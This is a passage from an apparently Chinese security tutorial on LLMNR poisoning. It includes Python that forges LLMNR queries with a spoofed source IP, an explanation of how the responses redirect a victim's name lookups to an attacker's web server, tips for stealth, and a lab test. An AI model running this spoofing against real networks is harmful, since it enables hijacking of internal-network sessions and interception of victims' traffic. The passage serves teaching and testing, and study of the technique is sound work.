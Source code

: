 ```
        "\x00\x00"  # Flags Query(0x0000)? or Response(0x8000) ?
        "\x00\x01"  # Question
        "\x00\x00"  # Answer RRS
        "\x00\x00"  # Authority RRS
        "\x00\x00"  # Additional RRS
        "\x09"      # length of Name
        "Her0in-PC"    # Name
        "\x00"      # NameNull
        "\x00\x01"  # Query Type ,IPv4(0x0001)? or IPv6(0x001c)?
        "\x00\x01") # Class

    ip_src = "192.168.169.1"
    ip_dst = "224.0.0.252"

    while True:
        print("UDP Source IP Spoof %s => %s for Her0in-PC" % (ip_src, ip_dst))
        UDPSpoof(ip_src, 18743,ip_dst , 5355, QueryData)
        time.sleep(3)

```

为了不要那么暴力,加个延时，实际上在 LLMNR 应答数据包中有一个 TTL 默认为 30s，所以在实战中为了隐蔽可以将延时加大

具体攻击过程如下：

*   攻击者（IP：111.111.111.111）伪造受害者（IP：222.222.222.222）向 LLMNR 协议的广播地址发送 LLMNR 质询，请求解析名称为：HER0IN-PC（IP：333.333.333.333） 的 IP
*   攻击者（IP：111.111.111.111）加入多播组收到 “受害者” 的请求，对质询进行响应，将自己的IP（可以是任何 IP）单播给受害者

攻击的效果就是，受害者只要使用计算机名称访问**`HER0IN-PC`**这台主机的任何服务，都会被重定向到攻击者指定的 IP 上。

测试环境如下：

*   攻击者主机 IP：192.168.169.5（启动伪造 IP 进行 LLMNR 广播的恶意程序 以及 LLMNR 应答程序）
*   受害者 IP：192.168.169.1 无需任何操作
*   当受害者访问内网某台主机的 WEB 服务时被重定向到攻击者主机的 WEB 服务器

看图说话，图片信息量较大 ;)

![](http://drops.javaweb.org/uploads/images/8deb1e1c95b20546ddc577a1b3a915e7b93841d1.jpg)

图 9 ： 攻击者主机 启动相应的程序，并提供了 WEB 服务

![](http://drops.javaweb.org/uploads/images/d724a1c41b20f2b90e0d9bf3048420a5be59d026.jpg)

图 10 ： 当受害者访问**`win2k3-3a85d681`**这台主机的 WEB 服务时被重定向到攻击者主机的 WEB 服务器

![](http://drops.javaweb.org/uploads/images/9e1573e61edae5b59e94184162946333d0dd4c46.jpg)

图 11 ： 可以明显的看到受害者原本想访问的 WEB 服务器是 Windows Server 2003 却被攻击者“重定向”到了一台 Linux 主机上

关于“利用伪造源 IP + LLMNR Poisone 劫持内网指定主机会话”就这么多，图片信息量较大，请自行梳理，利用这种攻击手段可以做很多事情，剩下的全靠自由发挥 ；）

0x06 LLMNR Poison 实战攻击思路
=====
